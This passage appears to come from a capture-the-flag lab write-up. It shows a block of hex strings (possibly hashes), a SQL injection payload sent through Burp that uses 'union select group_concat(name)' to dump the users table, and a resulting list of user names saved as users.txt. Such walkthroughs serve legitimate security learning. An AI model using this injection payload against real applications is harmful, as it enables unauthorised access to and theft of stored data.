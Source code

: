 ```
6487592ed88c043e36f6ace6c8b6c59c13e0004f9751b0c3fdf796b1965c48607ac3cc4256cc0708e77eca8e2df35b668f5844200334300a17826c033b03fe29
af9f594822f37da8ed0de005b940158a0837060d3300be014fe4a12420a09d5ff98883d8502a2aaffd64b05c7b5a39cdeb5c57e3005c3d7e9cadb8bb3ad39ddb
53e7ea6c54bea76f1d905889fbc732d04fa5d7650497d5a27acc7f754e69768078c246a160a3a16c795ab71d4b565cde8fdfbe034a400841c7d6a37bdf1dab0d
11f9cd36ed06f0c166ec34ab06ab47f570a4ec3f69af98a3bb145589e4a221d11a09c785d8d3947490ae4cd6f5b5dc4eb730e4faeca2e1cf9990e35d4b136490
9dc90274aef30d1c017a6dc1d5e3c07c8dd6ae964bcfb95cadc0e75ca5927faa4d72eb01836b613916aea2165430fc7592b5abb19b0d0b2476f7082bfa6fb760
4c968fc8f5b72fd21b50680dcddea130862c8a43721d8d605723778b836bcbbc0672d20a22874af855e113cba8878672b7e6d4fc8bf9e11bc59d5dd73eb9d10e
d4d5f4384c9034cd2c77a6bee5b17a732f028b2a4c00344c220fc0022a1efc0195018ca054772246a8d505617d2e5ed141401a1f32b804d15389b62496b60f24
36e2de7756026a8fc9989ac7b23cc6f3996595598c9696cca772f31a065830511ac3699bdfa1355419e07fd7889a32bf5cf72d6b73c571aac60a6287d0ab8c36
8f45b6396c0d993a8edc2c71c004a91404adc8e226d0ccf600bf2c78d33ca60ef5439ccbb9178da5f9f0cfd66f8404e7ccacbf9bdf32db5dae5dde2933ca60e6 
```



**Burp**

```
' union select group_concat(name),2,3,4  FROM users -- -
```

<figure><img src="../../../.gitbook/assets/image (19) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**users.txt**

```
Lucas Washington
Harry Turner
Andrea Phillips
Liam Hernandez
Adam Jenkins
Landon Alexander
Kennedy Anderson
Sydney Wright
Aaliyah Sanders
Olivia Murphy
Olivia Ross
Grace Brooks
Jordan White
Diego Baker
Liam Ward
Carlos Barnes
Carlos Lopez
Oliver Gonzalez
Sophie Sanchez
Maya Sanders
Joshua Reed
```